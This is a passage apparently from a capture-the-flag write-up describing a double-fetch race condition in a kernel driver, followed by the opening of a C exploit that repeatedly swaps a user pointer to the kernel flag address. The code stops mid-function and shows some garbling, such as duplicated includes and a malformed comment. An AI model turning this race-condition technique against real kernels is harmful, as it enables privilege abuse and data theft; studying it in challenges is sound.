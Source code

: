 
Finally, a malicious thread is created, and the user-state address pointed to by `flag_str` is continually modified to the kernel address of the flag to create a race condition, so that it passes the byte-by-byte comparison check in the driver and outputs the flag content.


### Exploit

```c

// gcc -static exp.c -lpthread -o exp

#include <string.h>

char *strstr(const char *haystack, const char *needle);

#define _GNU_SOURCE         /* See feature_test_macros(7) */

#include <string.h>

char *strcasestr(const char *haystack, const char *needle);

#include <stdio.h>

#include <stdlib.h>

#include <unistd.h>

#include <sys/types.h>

#include <sys/stat.h>

#include <sys/ioctl.h>

#include <fcntl.h>

#include <pthread.h>



#define TRYTIME 0x1000 //Number of collisions
#define LEN 0x1000


struct attr

{

    char *flag;

    size_t len;

};

unsigned long long addr;

int finish =0;

char buf [LEN + 1] = {0};
/ / Thread function, constantly modify the address pointed to by the flag is the flag address in the kernel
void change_attr_value(void *s){

    struct attr * s1 = s; 

```